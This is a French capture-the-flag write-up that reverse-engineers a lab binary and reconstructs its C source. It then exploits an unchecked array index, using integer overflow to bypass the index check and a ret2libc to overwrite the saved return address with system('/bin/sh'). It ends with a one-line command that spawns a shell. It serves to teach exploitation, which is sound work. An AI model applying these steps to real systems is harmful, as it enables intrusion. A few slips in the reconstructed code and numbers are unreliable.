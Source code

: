 # Level 07

## Analyse du binaire

Lorsqu'on exécute le binaire, une "commande" est attendue sur l'entrée standard. On a le choix entre :

- **read** : lit un nombre à un index voulu
- **store** : stocke un nombre voulu à un index voulu
- **quit** : quitte le programme

Le code asm est assez long, on retrouve notamment les instructions :

- Initialisation de tableau :

```asm
rep stos DWORD PTR es:[edi],eax
```

- Calcul de la longueur d'une chaîne de caractère :

```asm
repnz scas al,BYTE PTR es:[edi]
```

- Comparaison entre deux chaînes de caractères :

```asm
repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

- Division d'un nombre par 3, en faisant une multiplication par `2^33 / 3 = 0xaaaaaaab` (voir sources) :

```asm
mov    DWORD PTR [ebp-0xc],eax
mov    ecx,DWORD PTR [ebp-0xc]
mov    edx,0xaaaaaaab
mov    eax,ecx
mul    edx
shr    edx,1
```

On peut réécrire un code source en C :

```c
void clear_stdin(void)
{
	int c; // ebp-0x9

	c = 0;
	while (c != 0xff)
	{
		c = getchar();
		if (c == '\n')
			return;
	}
}

int get_unum(void)
{
	uint nb; // ebp-0xc

	nb = 0;
	fflush(stdout);
	scanf("%u", &nb);
	clear_stdin();
	return nb;
}

int read_number(char *data)
{
	uint index; // ebp-0xc

	printf(" Index: ");
	index = get_unum();
	printf(" Number at data[%u] is %u\n", index, data[index << 2]);
	return 0;
}

int store_number(char *data)
{
	uint nb;	// ebp-0x10
	uint index; // ebp-0xc

	nb = 0;
	index = 0;
	printf(" Number: ");
	nb = get_unum();
	printf(" Index: ");
	index = get_unum();

	uint tmp = index / 3;
	tmp *= 3;

	if (index - tmp == 0 || nb >> 24 != 0xb7)
	{
		puts(" *** ERROR! ***");
		puts("   This index is reserved for wil!");
		puts(" *** ERROR! ***");
		return 1;
	}
	data[index << 2] = nb; // same as ((uint32*)data)[index]
	return 0;
}

int main(int argc, const char **argv, char **envp)
{
	char command[20];		 // esp+0x1b8 - esp+0x1c8
	uint has_command_failed; // esp+0x1b4
	char *data[400];		 // esp+0x24
	char **av;				 // esp+0x1c
	char **env;				 // esp+0x18

	av = argv;
	env = envp;
	has_command_failed = 0;
	bzero(command, 20);
	bzero(data, 400);

	while (av[0] != NULL)
	{
		memset(av[0], 0, strlen(av[0]));
		av += 4;
	}

	while (env[0] != NULL)
	{
		memset(env[0], 0, strlen(env[0]));
		env += 4;
	}

	puts("----------------------------------------------------");
	puts("   Welcome to wil's crappy number storage service!  ");
	puts("----------------------------------------------------");
	puts("Commands:");
	puts("    store - store a number into the data storage");
	puts("    read  - read a number from the data storage");
	puts("    quit  - exit the program");
	puts("----------------------------------------------------");
	puts("   wil has reserved some storage :");
	puts("----------------------------------------------------");

	while (1)
	{
		printf("Input command: ");
		has_command_failed = 1;
		fgets(command[1], 20, stdin);

		command[strlen(command) - 1] = '\0';

		if (!strncmp(command, "store", 5))
			has_command_failed = store_number(data);
		else if (!strncmp(command, "read", 4))
			has_command_failed = read_number(data);
		else if (!strncmp(command, "quit", 4))
			return 0;

		if (has_command_failed)
			printf(" Failed to do %s command\n", command);
		else
			printf(" Completed %s command successfully\n", command);

		bzero(command, 20);
	}
}
```

## Exploit

On se doute qu'il faut utiliser la commande **store** pour écraser des valeurs intéressantes de la mémoire. En regardant le code de la fonction _store_number_, on remarque que notre index subit un décalage binaire à gauche de 2, soit une multiplication par 4. Le nombre que nous allons donné à la commande read sera donc stocké à l'adresse `DATA_ADDR + INDEX * 4`.

Cependant, on note aussi que l'index ne doit pas être un multiple de 3 et que le 1er octet du nombre que ne voulons stocké doit être différent de `0xb7`.

On peut essayer de faire un **ret2libc** pour lancer un shell. Pour ce faire, il nous faut l'adresse de la fonction _system_ et une adresse pointant sur la chaîne de caractères "/bin/sh". De plus on a besoin de l'adresse de notre buffer et l'**eip sauvegardé** de la fonction **main** à écraser. Comme vu au level04, avec gdb on obtient les adresses suivantes :

- system `0xf7e6aed0` (hex) = `4159090384` (dec)
- "/bin/sh" `0xf7f897ec` (hex) = `4160264172` (dec)
- eip `0xffffd60c`
- buffer `0xffffd444`

On doit donc :

- stocker l'adresse de la fonction _system_ à l'**eip sauvegardé**
- stocker l'adresse de la chaîne de caractères "/bin/sh" à **eip sauvegardé + 4**
- quitter le programme pour sortir de la fonction _main_ et exécuter la fonction système

On commence par faire la différence entre l'adresse de notre buffer et l'**eip sauvegardé** : `0xffffd60c - 0xffffd444 = 1C8 (hex) = 456 (dec)`. On doit donc diviser ce nombre par 4, ce qui nous donne 114. Problème : cet index est un multiple de 3 et la condition n'est donc pas respectée dans la fonction _store_number_. Sachant que la condition sur la division par 3 est fait **avant** le décalage binaire, on peut modifier les 2 premiers bits de notre index, puisque lors du décalage ces derniers vont "disparaître". On peut donc par exemple modifier le 1er bit à 1 ce qui nous donne :

```
0000 0000 0000 0000 0000 0000 0111 0010 (bin) =       72 (hex) =        114 (dec)
1000 0000 0000 0000 0000 0000 0111 0010 (bin) = 80000072 (hex) = 2147483762 (dec)
```

Le nombre 214748376 n'est pas un multiple de 3 : `2147483762 = 3 * 715827920 + 2`.

Pour l'index suivant qui est 116, cela ne pose pas de problème car il n'est pas un multiple de 3.

Finalement on exécute la commande :

```bash
(echo "store" ; echo "4159090384" ; echo "2147483762" ; echo "store"; echo "4160264172" ; echo "116" ; echo "quit"; cat) | ./level07
```

## Sources

- https://stackoverflow.com/questions/63417818/why-does-division-by-3-require-a-rightshift-and-other-oddities-on-x86
- https://aakinshin.net/posts/perfex-div/

